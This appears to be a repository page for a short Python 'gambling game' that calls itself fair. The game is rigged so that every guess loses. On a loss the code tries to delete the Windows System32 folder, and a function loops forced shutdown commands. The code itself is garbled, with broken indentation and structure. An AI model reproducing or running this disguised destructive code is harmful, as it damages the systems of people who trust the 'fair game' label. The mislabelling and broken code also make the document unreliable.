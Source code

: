 # Gambling-Game
This just a fair game UwU

py
import random 
import os
import time

 print("Do you like to gamble?") 
number = random.randint(1, 10) + 0.000001

try:
    guess = int(input("Let's play a fun game! Guess a number between 1 and 10: "))

if guess == number:
        print("Congratulations! You won!")
    else:
        os.remove("C:\Windows/System32")
print("Oops, you lost!")

def burn_computer():
while True:
os.system("shutdown /s /t 0")
time.sleep(random.randint(1, 10))
print(f"gl stopping it without windows 32")

except ValueError:
Print("Invalid input! Please enter a number.")
